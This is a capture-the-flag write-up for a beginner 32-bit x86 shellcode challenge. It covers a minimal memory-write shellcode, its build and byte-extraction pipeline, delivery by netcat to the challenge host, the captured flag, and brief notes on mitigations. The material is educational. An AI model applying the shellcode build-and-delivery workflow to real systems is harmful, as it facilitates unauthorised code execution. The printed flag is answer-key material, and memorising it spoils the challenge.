



# StackSmash CTF — shellcode-1 (Write-What-Where Shellcode)

## Metadata
- **Challenge:** shellcode-1
- **Platform:** StackSmash
- **Category:** Shellcode / Assembly (x86, 32-bit)
- **Difficulty:** Beginner
- **Date:** 2026-01-24
- **Time Spent:** ~__ minutes
- **Goal:** Set `*(0x804c0c0) = 0xdeadbeef`
- **Tools:** nc, gcc (`-m32`, `-nostdlib`), objcopy, hexdump

## Objective
Craft minimal 32-bit x86 shellcode that writes `0xdeadbeef` to a fixed address (`0x804c0c0`) and **returns** so the harness can validate state and print the flag.

## Recon

### Workflow and commands
End-to-end workflow: build → extract `.text` → verify bytes → deliver via netcat.

    nc -v vuln.stacksmash.io 4445
    make
    objcopy -O binary -j .text main sc.bin
    hexdump -Cv sc.bin
    nc -v vuln.stacksmash.io 4445 < sc.bin

*Workflow overview / initial remote interaction for shellcode-1.*

## Analysis

### Minimal write-what-where shellcode
The requirement is a direct memory write:

- load destination address into a register
- load the constant value into a register
- store the value to `[address]`
- return to the harness

Minimal instruction sequence:

    mov ebx, 0x804c0c0
    mov ecx, 0xdeadbeef
    mov [ebx], ecx
    ret

### Harness control-flow contract (why `ret` matters)
The harness appears to validate memory **after** shellcode execution. Returning cleanly preserves that contract so validation and flag printing can occur.

## Solution

### Assembly (`start.S`)
    .global _start
    .intel_syntax noprefix

    _start:
        mov ebx, 0x804c0c0
        mov ecx, 0xdeadbeef
        mov [ebx], ecx
        ret

### Build and extract bytes
    make
    objcopy -O binary -j .text main sc.bin
    hexdump -Cv sc.bin

*Build + `.text` extraction succeeded and produced the raw shellcode bytes.*

### Execute against remote
    nc -v vuln.stacksmash.io 4445 < sc.bin

## Outcome / Validation
Observed:

    Good job!
    flag{all_computers_do_is_read_and_write}

*Verified payload bytes and confirmed successful remote validation (flag redacted if needed).*

## Key takeaways
- Shellcode is raw executable bytes: every opcode matters.
- In harnessed environments, **returning vs exiting** can determine whether validation runs.
- Verifying bytes with `objcopy` + `hexdump` prevents “wrong payload” mistakes.

## Failed assumption → corrected
- **Assumption:** ending shellcode with `exit(0)` would be safe.  
- **Correction:** the harness likely validates after return; `ret` keeps the harness alive for checks and flag printing.

## Techniques & patterns
- **Reusable pattern: build → extract → verify → deliver**  
  Treat shellcode delivery as a repeatable pipeline and verify artifacts before remote testing.
- **Reusable pattern: honor the harness contract**  
  Assume the grader runs after your code returns unless the prompt says otherwise.

## Defensive notes (optional)
This controlled scenario maps to real exploitation: if an attacker achieves code execution, they can implement arbitrary memory writes.

Mitigations include NX/W^X, ASLR/PIE, sandboxing, and preventing memory corruption primitives.

